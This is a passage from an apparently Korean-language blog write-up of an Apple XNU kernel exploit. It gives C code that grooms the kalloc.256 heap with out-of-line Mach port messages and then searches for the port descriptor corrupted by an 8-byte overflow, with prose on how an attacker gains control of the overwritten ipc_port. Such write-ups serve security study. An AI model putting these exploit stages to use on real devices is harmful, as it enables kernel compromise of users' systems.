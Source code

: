 	for(current_port_num = USE_PORT_START; current_port_num < USE_PORT_END; current_port_num += 4){
		recv_msg.msg_head.msgh_local_port = ool_ports[current_port_num];
		kern_return_t recv_result = mach_msg(&recv_msg.msg_head, MACH_RCV_MSG | MACH_MSG_OPTION_NONE, 0, sizeof(struct ool_recv_msg), ool_ports[current_port_num], MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(recv_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui recv\nError : %s\n", mach_error_string(recv_result));
			exit(1);
		}
	}

	/* RE-SEND MSG */
	for(current_port_num = USE_PORT_START; current_port_num < USE_PORT_HALF; current_port_num += 4){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui re-send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}
	
	printf("[+] OOL Port Fengshui Success\n");
	return ool_ports;
}
{% endhighlight %}

앞서 나열한 단계들을 진행하기 위해 mach_msg()에서 사용될 메시지 구조(ool_send_msg, ool_recv_msg)를 선언한다. 이 때, kalloc.256에 데이터를 배치하기 위해 msg_ool_ports.count는 32로 설정했다.

위 메시지는 너무 커서도 안되고, 작아서도 안되기 때문에 적절한 크기를 가진 사이즈 멤버들로 구성해야 한다. 이후 전송-수신-재전송 과정을 거치면 포트 풍수 준비가 끝나며, OS는 해당 영역을 사용할 준비가 된다. 이 시점에서 오버플로우를 발생 시키면 desc의 ipc_port 를 덮게 되고 공격자 입장에서 덮인 데이터를 알고 있으며, 그 데이터를 마음껏 조작할 수 있기 때문에 공격이 수월해진다.

<br>

#### (3) 조작된 데이터 찾기

재전송 과정을 거친 포트를 주변으로 하여 오버플로우가 발생했을 것이며, 그 포트를 찾아야 한다. 참조 대상은 포트에서 사용된 descriptor의 address 멤버 (앞 단계에서 미리 더미 데이터로 채워 두었음)이며 해당 포트가 변경되었는지와 유효한 포트인지 확인한다.

사용된 코드는 다음과 같다:

{% highlight c %}
mach_port_t* find_manipulation_port(mach_port_t* port_list){
	for(int i = 0; i < USE_PORT_END; i++){
		send_msg.msg_head.msgh_local_port = port_list[i];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_RCV_MSG | MACH_MSG_OPTION_NONE, 0, sizeof(struct ool_send_msg), port_list[i], MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		for(int k = 0; k < send_msg.msg_body.msgh_descriptor_count; k++){ // traversing ool descriptors
			mach_port_t* tmp_port = send_msg.msg_ool_ports[k].address;
			if(tmp_port[0] != MACH_PORT_DEAD && tmp_port[0] != NULL){ // is Manipulated? (compare 8 bytes is enough. cuz of 8 bytes overflow)
				printf("[+] Found manipulated port! %dth port : %dth descriptor => %llx\n", i, k, tmp_port[0]);
				return tmp_port[0];
			}
		}

	}

	printf("[-] Error in Find Manipulated Port\n");
	exit(1);
}
{% endhighlight %}
